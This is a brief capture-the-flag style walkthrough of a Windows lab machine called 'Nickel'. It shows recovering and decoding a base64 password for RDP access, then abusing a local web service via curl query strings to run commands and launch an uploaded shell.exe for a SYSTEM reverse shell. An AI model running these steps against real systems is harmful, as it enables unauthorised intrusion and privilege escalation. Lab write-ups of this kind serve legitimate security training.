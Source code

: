 # 🏴 Nickel (Windows)

## 🧠 Initial Foothold

- Referenced the walkthrough:  
  [Nickel - Walkthrough](https://medium.com/@mahdi_78420/nickel-walkthrough-practice-tj-c41e273146bf)

- Used the following command to interact with DevTasks and obtained credentials for the user `ariah` (password was base64-encoded):

  ```cmd
  cmd.exe C:\windows\system32\DevTasks.exe --deploy C:\work\dev.yaml --user ariah -p "Tm93aXNlU2xvb3BUaGVvcnkxMzkK" --server nickel-dev --protocol ssh
  ```

- Decoded the base64 password to retrieve: `NowiseSloopTheory139`

- Connected via RDP using:

  ```bash
  xfreerdp3 /u:ariah /p:'NowiseSloopTheory139' /v:192.168.216.99
  ```

- Transferred and cracked a PDF file (via FTP folder or with ariah's credentials) to obtain more information.

- Opened the PDF, found interesting URLs, and tested them.

---

## 🚀 Privilege Escalation

- SShed into the machine and found port 80 open locally.

- Using CMD, ran:

  ```cmd
  curl http://127.0.0.1/?
  curl http://127.0.0.1/?whoami
  ```

- Verified NT AUTHORITY context.

- Uploaded `shell.exe` and executed it with:

  ```cmd
  curl http://127.0.0.1/?C:\Users\ariah\shell.exe
  ```

- With a listener on port 4444, received a SYSTEM-level reverse shell.

---

🧼 **Post-Exploitation Note:**  
Be cautious when interacting with internal services and leave minimal footprint.

> ⚠️ This walkthrough is for educational purposes only.
